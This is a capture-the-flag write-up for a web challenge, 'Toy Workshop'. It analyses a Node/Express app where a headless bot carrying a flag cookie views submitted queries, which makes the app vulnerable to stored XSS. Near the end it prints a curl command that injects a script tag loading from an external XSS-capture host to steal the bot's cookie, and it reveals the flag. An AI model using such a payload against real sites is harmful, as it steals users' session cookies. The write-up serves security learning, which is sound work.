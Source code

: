 # Web :: Toy Workshop

*The work is going well on Santa's toy workshop but we lost contact with the manager in charge! We suspect the evil elves have taken over the workshop, can you talk to the worker elves and find out?*

### Challenge Files: [web_toy_workshop.zip](web_toy_workshop.zip)

For this challenge, there is a docker component that hosts the vulnerable website, but you are provided with the challenge files to develop an exploit.

At first glance, we can see that this is a Node app running Express, there are two routes that are valid, **/api/submit** and **/queries**, however the query page only allows connections from localhost.

```js
router.post('/api/submit', async (req, res) => {

		const { query } = req.body;
		if(query){
			return db.addQuery(query)
				.then(() => {
					bot.readQueries(db);
					res.send(response('Your message is delivered successfully!'));
				});
		}
		return res.status(403).send(response('Please write your query first!'));
});
```

Looking at the submit function, it appears to accept a json object via a POST request with a "query" parameter, which is then enters into the database. Then is calls the function ```bot.readQueries()```. Next we can look at the other function:

So let's go ahead and see what the bot does:

```js 
const cookies = [{
	'name': 'flag',
	'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'
}];


const readQueries = async (db) => {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		await page.goto('http://127.0.0.1:1337/');
		await page.setCookie(...cookies);
		await page.goto('http://127.0.0.1:1337/queries', {
			waitUntil: 'networkidle2'
		});
		await browser.close();
		await db.migrate();
};
```

We can see after some other initial setup, the bot stores a flag value in a cookie and then when the readQueries function is called, it browses to the queries page. Next let's go there:

```js 
router.get('/queries', async (req, res, next) => {
	if(req.ip != '127.0.0.1') return res.redirect('/');

	return db.getQueries()
		.then(queries => {
			res.render('queries', { queries });
		})
		.catch(() => res.status(500).send(response('Something went wrong!')));
});
```

When the bot visits the page, all of the queries that were submitted are displayed on the page. So this is a pretty simple stored XSS vulnerability where we can get the bot to view a script that will give us the flag in the cookie.

I personally used XSS Hunter which is just a nice simple way to capture XSS triggers without having to spin up your own listeners, etc. The payload was sent with Curl like:

```curl -X POST http://138.68.182.5:30527/api/submit -H 'Content-Type: application/json' -d '{"query":"<script src=https://myusername.xss.ht></script>"}'```

After a few minutes, the bot visits the page and on the XSSHunter dashboard I can see a report of the trigger including cookie values:

```HTB{3v1l_3lv3s_4r3_r1s1ng_up!}```
